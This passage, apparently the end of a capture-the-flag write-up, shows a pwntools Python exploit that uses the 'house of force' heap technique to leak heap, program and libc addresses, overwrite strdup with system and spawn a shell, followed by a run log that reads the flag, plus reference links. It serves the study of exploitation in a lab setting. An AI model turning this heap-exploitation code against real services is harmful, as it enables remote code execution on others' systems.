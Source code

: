 ```python
    # of the next chunk that will be created
    malicious_size =  -heap_offset - 0x20 - 0x110
    add_entry(name=name, large=str(malicious_size))
    # create a chunk to get out of here and land on zeros
    add_entry(small='B'*0x100)
    _, _, text_addr = print_entries(3)
    text_addr = int(text_addr, 16)
    text_base = text_addr - text_end_of_entry_offset
    log.info('Leaked .text_addr: 0x{:x}'.format(text_addr))
    log.info('Leaked .text_base: 0x{:x}'.format(text_base))

    # leak stderr address in the .got
    add_entry(name='A' * 0x100 + p64(text_base + text_stderr_offset))
    add_entry()
    _, libc_addr, _ = print_entries(5)
    libc_addr = libc_addr.strip('\n')
    libc_addr = u64(libc_addr + '\0' * (8 - len(libc_addr)))
    libc_base = libc_addr - libc_stderr_offset
    log.info('Leaked libc_addr: 0x{:x}'.format(libc_addr))
    log.info('Leaked libc_base: 0x{:x}'.format(libc_base))

    # house of force to overwrite strdup with system
    malicious_size =  text_base + 0x12220
    malicious_size -= heap_addr - 0x400
    add_entry(name=name, large=str(malicious_size))
    # overwrite everything until system
    add_entry(name='D' * 8 * 6 + p64(libc_base + libc_system_offset),
            small='/bin/sh', back=False)

    r.interactive()
```

## Execution

```bash
$ ./payload.py
[+] Opening connection to localhost on port 11111: Done
[*] Leaked heap_addr: 0x5574896950
[*] Leaked heap_base: 0x5574896000
[*] Leaked .text_addr: 0x556c1d9f54
[*] Leaked .text_base: 0x556c1d9000
[*] Leaked libc_addr: 0x7f9ba5d5c8
[*] Leaked libc_base: 0x7f9b915000
[*] Switching to interactive mode
$ ls -la
total 32
drwxr-xr-x    7 0        0             4096 Apr 25 21:27 .
drwxr-xr-x    7 0        0             4096 Apr 25 21:27 ..
drwxr-xr-x    2 0        0             4096 Apr 25 20:50 app
drwxr-xr-x    2 0        0             4096 Apr 25 21:28 bin
-rw-r--r--    1 0        0               60 Apr 25 18:29 flag
drwxr-xr-x    3 0        0             4096 Apr 25 18:23 lib
drwxr-xr-x    2 0        0             4096 Apr 25 18:23 lib64
drwxr-xr-x    2 0        0             4096 Apr 25 18:23 sbin
$ cat flag
CTF{somebody.has.written.gullible.on.the.ceiling.above.you}
```


[system]: http://man7.org/linux/man-pages/man3/system.3.html
[malloc]: http://man7.org/linux/man-pages/man3/malloc.3.html
[mmap]: http://man7.org/linux/man-pages/man2/mmap.2.html
[read]: http://man7.org/linux/man-pages/man2/read.2.html
[exit]: http://man7.org/linux/man-pages/man3/exit.3.html
[strcpy]: http://man7.org/linux/man-pages/man3/strncpy.3.html
[strdup]: http://man7.org/linux/man-pages/man3/strdup.3.html
[strtol]: http://man7.org/linux/man-pages/man3/strtol.3.html
[qemu]: http://wiki.qemu.org/Main_Page
[phrak]: http://phrack.org/issues/66/10.html
[shellphish]: https://github.com/shellphish/how2heap/blob/master/house_of_force.c
[pwntools]: https://github.com/Gallopsled/pwntools
[minsize]: https://sourceware.org/git/?p=glibc.git;a=blob_plain;f=malloc/malloc.c;hb=HEAD
[socat]: http://www.dest-unreach.org/socat/
[magicgadget]: {% post_url 2016-03-30-Radare2-of-the-Lost-Magic-Gadget %}
[execve]: http://man7.org/linux/man-pages/man2/execve.2.html
[callconv]: https://en.wikipedia.org/wiki/Calling_convention#ARM_.28A64.29